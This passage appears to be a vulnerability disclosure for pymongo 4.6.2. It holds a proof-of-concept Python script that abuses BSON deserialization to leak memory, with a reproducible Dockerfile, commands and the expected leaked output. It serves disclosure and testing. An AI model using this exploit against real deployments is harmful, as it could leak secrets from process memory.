 ```python


print('## case 1: leak the printable string ##')

# uses secret internally
function(0x50 + 0x0F)

# payload could be read from stdin or similar
payload = generate_payload(0x50)
deserialize_payload(payload)

###

print('\n## case 2: leak some non-printable bytes ##')

for i in range(5):
    # payload could be read from stdin or similar
    payload = generate_payload(0x54f + i)
    deserialize_payload(payload)
```

The PoC contains two cases:

1. leak of the used variable, the arbitrary string from the memory could be leaked the same way
2. leak of 5 single non-printable bytes

You could use the provided Dockerfile in order to preserve the environment:

```Dockerfile
FROM python:3.12@sha256:e83d1f4d0c735c7a54fc9dae3cca8c58473e3b3de08fcb7ba3d342ee75cfc09d

RUN pip install pymongo==4.6.2

COPY poc.py /tmp/poc.py

ENTRYPOINT python3 -u /tmp/poc.py
```

1. Build the image

```bash
docker build --tag pymongo-poc .
```

2. Run the image

```bash
docker run --rm pymongo-poc
```

3. Expected behaviour

```bash
$ docker run --rm pymongo-poc
## case 1: leak the printable string ##
Detected unknown BSON type b'\x00' for fieldname 'XXXXXXXXXXXXXX'. Are you using the latest driver version?

## case 2: leak some non-printable bytes ##
'utf-8' codec can't decode byte 0x90 in position 1: invalid start byte
'utf-8' codec can't decode byte 0xfc in position 0: invalid start byte
'utf-8' codec can't decode byte 0x98 in position 0: invalid start byte
'utf-8' codec can't decode byte 0xf7 in position 0: invalid start byte
'utf-8' codec can't decode byte 0xff in position 0: invalid start byte
```

